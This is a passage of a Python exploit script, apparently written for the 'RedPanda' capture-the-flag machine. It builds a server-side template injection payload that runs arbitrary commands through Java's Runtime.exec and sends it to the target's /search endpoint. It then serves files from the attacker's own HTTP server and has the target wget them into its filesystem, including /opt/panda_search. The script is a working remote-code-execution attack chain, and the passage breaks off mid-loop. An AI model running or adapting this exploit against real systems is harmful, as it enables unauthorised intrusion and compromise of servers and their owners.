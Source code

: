 ```python
            command_convertion += (java_convertion + ').concat(')
        else:
            command_convertion += (java_convertion + ')')
        position += 1

    payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(%s).getInputStream())}' % command_convertion
    
    return payload

# return SSTI inyection
def get_inyection(command): 
    return create_inyection(command)

# make post request
def make_request(payload):
    try:
        # create session
        session = requests.Session()
        
        headers = {'Content-Type' : 'application/x-www-form-urlencoded'}
        post_data = 'name=' + get_inyection(payload)
        
        session.post(f'http://{redpanda_ip}:8080/search', headers=headers, data=post_data)

    except Exception as e:
        sys.exit(f'\n[x] {e}')


# execute remote command
def run_redpanda_command(name, inyection):
    command = inyection[name]
    make_request(command)

# execute local command
def run_local_command(command):
    process = subprocess.Popen(shlex.split(command), stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
    return process

# upload .xml, .jpg and log file
def upload_files(args, progress):
    # inyection commands
    inyection = {
        'workstation created' : f'mkdir -p {workstation}',
        '.jpg uploaded' : f'wget http://{args.ip}:{args.port}/{pwned_jpg} -P {workstation}', 
        '.xml uploaded' : f'wget http://{args.ip}:{args.port}/{pwned_xml} -P {workstation}',
        'logs uploaded' : f'wget http://{args.ip}:{args.port}/{pwned_log} -O /opt/panda_search/{pwned_log}',
        'web server uploaded' : f'wget http://{args.ip}:{args.port}/{share_server} -P {workstation}'
    }
    
    time.sleep(2)
    progress.status(f'Opening web server by port {args.port} to share files')
    
    try:
        # share webserver
        server_process = run_local_command(f'/usr/bin/python3 -m http.server {args.port}')
    
        # excute inyection commands (SSTI)
        for command in inyection:
            time.sleep(1);
```